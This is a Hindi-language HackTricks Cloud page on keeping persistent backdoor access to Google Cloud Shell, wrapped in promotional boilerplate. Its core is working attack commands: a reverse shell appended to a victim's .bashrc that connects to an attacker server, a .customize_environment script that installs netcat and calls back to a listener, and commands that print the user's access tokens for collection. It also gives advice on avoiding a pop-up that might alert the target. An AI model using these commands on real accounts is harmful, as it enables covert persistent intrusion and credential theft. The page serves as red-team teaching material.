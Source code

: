 # GCP - क्लाउड शेल पर्सिस्टेंस

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS रेड टीम एक्सपर्ट)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord समूह में शामिल हों**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;github repos.

</details>

## क्लाउड शेल

अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### पर्सिस्टेंट बैकडोर

[**Google क्लाउड शेल**](https://cloud.google.com/shell/) आपको बिना किसी जुड़े हुए लागत के अपने ब्राउज़र से सीधे आपके क्लाउड संसाधनों तक कमांड-लाइन एक्सेस प्रदान करता है।

आप **वेब कंसोल** से या **`gcloud cloud-shell ssh`** चलाकर Google के क्लाउड शेल तक पहुँच सकते हैं।

इस कंसोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएं हैं:

1. **किसी भी Google उपयोगकर्ता जिसके पास Google क्लाउड तक पहुँच है** उसके पास पूरी तरह से प्रमाणित क्लाउड शेल इंस्टेंस तक पहुँच होती है (सर्विस अकाउंट्स भी, यहाँ तक कि वे संगठन के मालिक हों)।
2. उक्त इंस्टेंस अपनी होम डायरेक्टरी को कम से कम 120 दिनों तक बनाए रखेगा यदि कोई गतिविधि नहीं होती है।
3. उस इंस्टेंस की गतिविधि की निगरानी करने के लिए संगठन की **कोई क्षमता नहीं है**।

इसका मूल रूप से यह मतलब है कि एक हमलावर उपयोगकर्ता की होम डायरेक्टरी में एक बैकडोर डाल सकता है और जब तक उपयोगकर्ता हर 120 दिनों में कम से कम एक बार GC शेल से जुड़ता है, बैकडोर जीवित रहेगा और हमलावर को हर बार जब यह चलाया जाता है तो एक शेल मिलेगा बस यह करके:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

होम फोल्डर में एक और फाइल है जिसका नाम **`.customize_environment`** है, जो अगर मौजूद है, तो वह **हर बार निष्पादित की जाएगी** जब भी उपयोगकर्ता **cloud shell** तक पहुँचता है (पिछली तकनीक की तरह)। बस पिछले बैकडोर को डालें या निम्नलिखित जैसा एक डालें ताकि जब तक उपयोगकर्ता "अक्सर" cloud shell का उपयोग करता है, तब तक पर्सिस्टेंस बनाए रखा जा सके:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
ध्यान दें कि **Cloud Shell में पहली बार GCP क्रिया को अंजाम दिया जाता है जिसके लिए प्रमाणीकरण की आवश्यकता होती है**, तो यह उपयोगकर्ता के ब्राउज़र में एक प्राधिकरण विंडो **पॉप अप** करता है जिसे कमांड चलाने से पहले स्वीकार करना पड़ता है। अगर अप्रत्याशित पॉप-अप आता है, तो लक्ष्य संदिग्ध हो सकता है और पर्सिस्टेंस विधि को नष्ट कर सकता है।

यह पॉप-अप है जो `gcloud projects list` को क्लाउड शेल से निष्पादित करने पर आता है (हमलावर के रूप में) जिसे ब्राउज़र के उपयोगकर्ता सत्र में देखा जा सकता है।
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

हालांकि, अगर उपयोगकर्ता ने सक्रिय रूप से क्लाउडशेल का उपयोग किया है, तो पॉप-अप प्रदर्शित नहीं होगा और आप **उपयोगकर्ता के टोकन इकट्ठा कर सकते हैं**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH कनेक्शन कैसे स्थापित किया जाता है

मूल रूप से, ये 3 API कॉल्स का उपयोग किया जाता है:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (आपको अपनी स्थानीय रूप से बनाई गई पब्लिक की जोड़ने में मदद करेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (आपको इंस्टेंस शुरू करने में मदद करेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (आपको गूगल क्लाउड शेल का आईपी बताएगा)

लेकिन आप अधिक जानकारी [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) पर पा सकते हैं।

## संदर्भ

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एक्सक्लूसिव [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें**.
* **HackTricks** में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* &#x20;github repos.

</details>
